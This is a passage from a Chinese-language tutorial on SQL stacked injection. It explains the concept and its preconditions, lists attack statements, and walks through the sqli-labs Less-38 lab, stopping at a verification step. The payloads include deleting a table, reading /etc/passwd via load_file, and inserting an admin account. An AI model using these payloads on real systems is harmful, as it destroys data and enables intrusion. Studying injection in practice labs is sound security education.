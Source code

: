 ### 3.8.1.**堆叠注入基本概念**

#### 3.8.1.1.**堆叠注入定义**

Stacked injections(堆叠注入)从名词的含义就可以看到应该是一堆 sql 语句(多条)一起执行。而在真实的运用中也是这样的, 我们知道在 mysql 中, 主要是命令行中, 每一条语句结尾加; 表示语句结束。这样我们就想到了是不是可以多句一起使用。这个叫做 stacked injection。

#### 3.8.1.2.**堆叠注入原理**

在SQL中，分号（;）是用来表示一条sql语句的结束。试想一下我们在 ; 结束一个sql语句后继续构造下一条语句，会不会一起执行？因此这个想法也就造就了堆叠注入。而union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别么？区别就在于union 或者union all执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。例如以下这个例子。用户输入：1; DELETE FROM products服务器端生成的sql语句为： Select * from products where productid=1;DELETE FROM products当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。

#### 3.8.1.3.**堆叠注入局限性**

堆叠注入并不是在每种情况下都能使用的。大多数时候，因为API或数据库引擎的不支持，堆叠注入都无法实现。

#### 3.8.1.4.**堆叠注入前提**

目标存在sql注入漏洞，目标未对"；"号进行过滤，目标中间层查询数据库信息时可同时执行多条sql语句

### 3.8.2.**堆叠注入攻击语句**

新建一个表X：select * from users;create table X like users;

删除创建的X表：select * from users;drop table X;

查询数据：select * from users;select B,C,D;

加载文件：select * from users;select load_file('/etc/passwd');

增加一条数据：select * from users;insert into users values(18,'admin100','admin100');

### 3.8.3.**案例**sql-labs-less-38 堆叠

#### 3.8.3.1.**判断注入点**

?id=1 and 1=2 正常

?id=1' and 1=2 不正常

由此判断该闭合方式为单引号。

URL：http://192.168.10.150/sqlilabs/Less-38/?id=1' and 1=2--+

![img](https://s2.loli.net/2023/03/12/vrWjMCu26O4Z7ac.jpg) 

#### 3.8.3.2.**新建表**

新建一个test表。

URL：http://192.168.10.150/sqlilabs/Less-38/?id=1'; create table test like users;--+

![img](https://s2.loli.net/2023/03/12/JdW53GumxAEw9bz.jpg) 

验证：
